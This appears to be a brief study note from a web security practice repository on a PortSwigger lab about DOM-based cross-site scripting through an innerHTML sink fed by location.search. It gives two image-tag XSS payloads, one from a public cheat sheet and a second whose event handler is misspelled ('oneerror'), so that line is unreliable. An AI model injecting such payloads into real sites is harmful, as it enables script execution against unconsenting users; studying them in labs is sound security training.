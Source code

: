 **DOM XSS in innerHTML sink using source location.search**

Sink refer method of function that causes malicious js to be performed on the page
Script tag wont work with innerHTML 

```
<img/src/onerror=alert(1)>
```

From <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet> 

You can also use the payload 
```
<img src='0' oneerror='alert()'>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/baa1e158-bad4-417c-9449-09342b18b2e8)


